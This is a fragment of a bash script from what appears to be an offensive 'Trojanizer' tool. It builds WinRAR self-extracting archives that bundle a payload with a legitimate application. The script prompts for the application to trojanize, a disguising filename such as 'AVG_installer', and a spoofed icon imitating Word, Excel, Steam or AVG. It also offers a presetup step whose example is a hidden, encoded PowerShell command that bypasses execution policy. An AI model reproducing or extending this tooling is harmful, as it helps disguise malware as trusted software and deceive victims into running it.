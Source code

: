 
#
# Use advanced option [SINGLE_FILE_EXECUTION]
#
if [ "$SIN_GL" = "ON" ]; then
  legit_path=$(zenity --title "☠ EXECUTE THIS FILE UPON EXTRACTION ☠" --filename=$IPATH --file-selection --text "Input appl/script") > /dev/null 2>&1
else
  legit_path=$(zenity --title "☠ LEGIT APPLICATION TO TROJANIZE ☠" --filename=$IPATH --file-selection --text "chose legit application/agent") > /dev/null 2>&1
fi
N4m3=$(zenity --title="☠ Input SFX FILENAME ☠" --text "example: AVG_installer" --entry --width 300) > /dev/null 2>&1
IcOn=$(zenity --list --title "☠ ICON REPLACEMENT  ☠" --text "Chose one icon from the list." --radiolist --column "Pick" --column "Option" TRUE "Windows-black.ico" FALSE "Windows-Metro.ico" FALSE "Microsoft-Excel.ico" FALSE "Microsoft-Word.ico" FALSE "Windows-Logo.ico" FALSE "Windows-Store.ico" FALSE "Steam-logo.ico" FALSE "AVG.ico" FALSE "Input your own icon" --width 330 --height 390) > /dev/null 2>&1
# Input your own icon.ico ?
if [ "$IcOn" = "Input your own icon" ]; then
  Icon_path=$(zenity --title "☠ INPUT YOUR OWN ICON (.ico) FILE ☠" --filename=$IPATH/bin --file-selection --text "chose the icon.ico to use ..") > /dev/null 2>&1
fi
# Input your own logo.bmp image ?
if [ "$LoGo" = "ON" ]; then
  logo_path=$(zenity --title "☠ INPUT YOUR OWN LOGO (.bmp) IMAGE ☠" --filename=$IPATH --file-selection --text "chose the image.bmp to use ..") > /dev/null 2>&1
fi


#
# check settings enter before continue ..
#
if [ "$pa_in" = "COMPATIBLE" ]; then
  echo ${GreenF}[☆]${white}" Trojanizer : start sfx archive compression .."${Reset};
  sleep 1
fi

#
# Presetup = program/command to exec before archive extractions ..
#
if [ "$PRES" = "ON" ]; then
  MyPr=$(zenity --title="☠ PRESETUP FUNTION ☠" --text "Presetup sfx funtion to exec program/command before extraction\nexample: powershell.exe -nop -wind hidden -Exec Bypass -noni -enc TfD3DvcHtLhiSmoT==" --entry --width 300) > /dev/null 2>&1
  echo ${BlueF}[☆]${white}" Using WinRAR SFX Presetup switch .."${Reset};
  sleep 2
fi
